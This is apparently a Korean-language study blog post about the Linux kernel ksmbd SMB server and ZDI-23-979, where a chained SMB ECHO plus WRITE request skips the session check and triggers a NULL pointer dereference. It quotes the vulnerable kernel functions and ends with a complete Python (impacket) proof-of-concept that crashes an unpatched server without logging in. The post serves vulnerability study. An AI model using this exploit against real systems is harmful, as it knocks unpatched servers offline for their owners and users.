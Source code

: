 ```yaml
---
layout: post
title: "ksmbd - 1. ZDI-23-979"
categories:
  - Pwnable
tags:
  - pwn
  - kernel
last_modified_at: 2025-10-13
---
```


오늘 읽을 자료는 [https://pwning.tech/ksmbd/](https://pwning.tech/ksmbd/)
리눅스 커널의 ksmbd 부분에 대해 알아보자. 


# ZDI-22-1690 
리눅스 커널 ksmbd 하위 시스템에 존재하는 unauthentication RCE vul이다. ksmbd는 Kernel SMB Daemon의 약자로, 커널에서 SMB server 역할을 한다(Windows에서 많이 볼 수 있다. 시스템 보안 2주차에서도 나왔던듯)

SMB 관련한 취약점은 많은데 이게 커널에 도입 되었다. 해당 post에서는 ksmbd 시스템의 취약점을 조사할 예정이다. 

ZDI-23-979
ZDI-23-980 

# SMB 
SMB는 Server Message Block의 약자로, 윈도우에서 많이 쓰는 파일 전송 프로토콜이다. SMB에서 제공하는 기능은 다음과 같다. 

1. file Read, Write 
2. Directory info access 
3. authentication 

Windows OS에서는 SMB를 통합하기 위해 Windows에서 사용하는 다양한 인증 방식을 제공한다(NTLMSSP, kerberos 5, Microsoft Kerberos 5, U2U auth) 

여기서 RAM이나 disk 저장 공간에서 resource 낭비를 방지하기 위해 credit system을 사용한다. 각 명령이 세션에서 크레딧을 차감하는 시스템 
* 원문 살펴볼 필요가 있다. 

## SMB 프로토콜 

여러개의 명령을 하나의 네트워크 패킷에 담아 보냄 -> 컴파운딩/체이닝 기능 

# ZDI-23-979 : NULL pointer 역참조 DoS 

chained SMB request packet의 session 처리 과정에서 발생하는 logical bug -> NULL pointer 역참조 취약점이 발생한다. 

1. 패킷의 첫번째 요청에 대한 세션 처리 
2. 패킷의 두번째 요청도 동일한 세션 인스턴스 사용 

if 첫번째 요청에서 세션을 사용하지 않으면, 
-> 두번째 요청도 세션을 사용하지 않음 

이때 세션 auth 검사를 건너뛸 수 있어서 인증 우회가 발생할 수 있다. 그런데 post에서는 인증 우회에 대해 언급하진 않고 인증을 처리하기 위해 요청 세션의 속성에 접근 -> 근데 세션을 사용하지 않은 요청에 한해 NULL 포인터를 역참조하게 된다. 

__handle_ksmbd_work 함수
모든 패킷을 연결할 때마다 해당 함수가 호출됨 

```c
static void __handle_ksmbd_work(struct ksmbd_work *work,
				struct ksmbd_conn *conn)
{
	u16 command = 0;
	int rc;

	// [snip] (initialize buffers) 

	if (conn->ops->check_user_session) {
		rc = conn->ops->check_user_session(work);

		// if rc != 0 goto send (auth failed)
		if (rc < 0) {
			command = conn->ops->get_cmd_val(work);
			conn->ops->set_rsp_status(work,
					STATUS_USER_SESSION_DELETED);
			goto send;
		} else if (rc > 0) {
			rc = conn->ops->get_ksmbd_tcon(work);
			if (rc < 0) {
				conn->ops->set_rsp_status(work,
					STATUS_NETWORK_NAME_DELETED);
				goto send;
			}
		}
	}

	do {
		rc = __process_request(work, conn, &command);
		if (rc == SERVER_HANDLER_ABORT)
			break;

	    // [snip] (set SMB credits)
	} while (is_chained_smb2_message(work));

	if (work->send_no_response)
		return;

send:
	// [snip] (send response)
}
```

위 코드를 살펴보면 if (conn->ops->check_user_session) 으로 첫번째 요청에 대한 user_session만 확인한다. 

세션 확인은 1번 
실제 명령 처리는 여러 번 

아 연결과 process_request와는 달라서 

1. if (conn -> ops -> check_user_session)
2. __process_request 호출 -> SMB 명령은 여기서 처리 

```c
if (conn->ops->check_user_session) {
		rc = conn->ops->check_user_session(work);

		// if rc != 0 goto send (auth failed)
		if (rc < 0) {
			command = conn->ops->get_cmd_val(work);
			conn->ops->set_rsp_status(work,
					STATUS_USER_SESSION_DELETED);
			goto send;
		} else if (rc > 0) {
			rc = conn->ops->get_ksmbd_tcon(work);
			if (rc < 0) {
				conn->ops->set_rsp_status(work,
					STATUS_NETWORK_NAME_DELETED);
				goto send;
			}
		}
```

conn->ops->check_user_session(work)req_hdr->SessionIdreq_hdr->SessionIdwork->sess = ksmbd_session_lookup_all(conn, sess_id)work->sess = NULL

```
int smb2_check_user_session(struct ksmbd_work *work)
{
	struct smb2_hdr *req_hdr = smb2_get_msg(work->request_buf);
	struct ksmbd_conn *conn = work->conn;
	unsigned int cmd = conn->ops->get_cmd_val(work);
	unsigned long long sess_id;

	/*
	 * SMB2_ECHO, SMB2_NEGOTIATE, SMB2_SESSION_SETUP command do not
	 * require a session id, so no need to validate user session's for
	 * these commands.
	 */
	if (cmd == SMB2_ECHO_HE || cmd == SMB2_NEGOTIATE_HE ||
	    cmd == SMB2_SESSION_SETUP_HE)
		return 0;

	// [snip] (check conn quality)

	sess_id = le64_to_cpu(req_hdr->SessionId);

	// [snip] (chained request logic that was unused)

	/* Check for validity of user session */
	work->sess = ksmbd_session_lookup_all(conn, sess_id);
	if (work->sess)
		return 1;
	
    // [snip] (invalid session handling)
}
```

만약 첫번째 명령이 SMB2_ECHO_HE 이고 두번째 명령은 SMB2_WRITE라면, work->sess는 smb2_write()에서 NULL이 될 것이다. 

이걸 역참조하게 되니까 -> 강제 종료 일어남 


```
#!/usr/bin/env python3

from impacket import smb3, nmb
from pwn import p64, p32, p16, p8


def main():
    print("[*] connecting to SMB server (no login)...")

    try:
        conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445, timeout=3)
    except nmb.NetBIOSTimeout:
        print("[!] SMB server is already offline (connection timeout)")
        return

    # generate innocent SMB_ECHO request
    request_echo = smb3.SMB3Packet()
    request_echo['Command'] = smb3.SMB2_ECHO
    request_echo["Data"] = p16(4) + p16(0)
    request_echo["NextCommand"] = 64+4  # set NextCommand to indicate request chaining

    # generate innocent SMB_WRITE request
    request_write = smb3.SMB3Packet()
    request_write['Command'] = smb3.SMB2_WRITE
    request_write["Data"] = p16(49) + p16(0) + p32(0) + p64(0) + p64(0) + p64(0) + p32(0) + p32(0) + p16(0) + p16(0) + p32(0) + p8(0)
    request_write["TreeID"] = 0

    # chain SMB_WRITE to SMB_ECHO
    request_echo["Data"] += request_write.getData()

    print('[*] sending DoS packet...')
    conn.sendSMB(request_echo)

    print("[*] probing server health...")

    try:
        smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445, timeout=3)
        print("[!] exploit failed - server remains online")
    except nmb.NetBIOSTimeout:
        print("[+] exploit succeeded - server is now offline")


if __name__ == "__main__":
    main()
```


